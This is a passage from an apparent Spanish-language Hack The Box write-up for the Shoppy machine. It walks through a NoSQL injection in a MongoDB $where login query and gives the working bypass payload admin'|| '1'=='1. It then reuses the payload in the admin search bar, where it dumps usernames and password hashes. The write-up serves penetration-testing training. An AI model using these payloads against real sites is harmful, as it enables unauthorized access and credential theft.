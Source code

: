 ```js
const query = { $where: `this.username === ''|| '1'=='1' && this.password === '${passToTest}'` };
```

Esta *query* con el *payload* anterior devolvería lo siguiente:

* Primero se evalúan los *AND* y luego las *OR*.
* `'1'=='1' && this.password === '${passToTest}'`: **Falso** (La primera parte es verdadera, pero la contraseña no la sabemos, por lo tanto, el resultado es falso).
* `this.username === '' || Falso`. **Falso** (La primera parte es falsa, ya que es un campo vacío y la segunda también por lo anterior).

Por lo tanto, el *payload* anterior **no funcinaría** para *bypassear* el panel de *login*. Pero, ¿y si en vez de `'|| '1'=='1` utilizamos `<user>'|| '1'=='1` donde *user* es un usuario válido de la base de datos? El resultado de la *query* sería **cierto**. Ahora debemos encontrar un usuario que exista en la base de datos. Uno muy común en las máquinas de *Hack The Box* es el usuario *admin*. 

Así, el ***payload*** **válido** sería el siguiente:

```bash
admin'|| '1'=='1
```

Introduciendo las **credenciales** `username=admin'|| '1'=='1` y `password=cualquier_cosa` conseguiremos acceder.

Teniendo en cuenta la *query* anterior, el resultado de la ejecución sería:

```sql
1. '1'=='1' && this.password === 'cualquier_cosa' --- Falso
2. this.username === 'admin' || Falso 
3. Cierto || Falso
4. Cierto
```

### Investigando panel de administración de shoppy.htb

El panel de administración tiene el siguiente aspecto:

![imagen 5](Pasted image 20230111141131.png)

Si clicamos en el botón *Search for users* nos aparecerá una barra de búsqueda. Igual que antes, si introducimos una comilla, el servidor nos dará un error. Podemos reutilizar el *payload* anterior para ver como se comporta la web. La barra de búsqueda también es vulnerable a ***NoSQLI***. Nos devuelve lo siguiente:

![imagen 6](Pasted image 20230111141533.png)

Es un documento que contiene los siguientes **usuarios y credenciales**:

```json
[
  {
    "_id": "62db0e93d6d6a999a66ee67a",
    "username": "admin",
    "password": "23c6877d9e2b564ef8b32c3a23de27b2"
  },
  {
    "_id": "62db0e93d6d6a999a66ee67b",
    "username": "josh",
    "password": "6ebcea65320589ca4f2f1ce039975995"
  }
]
```
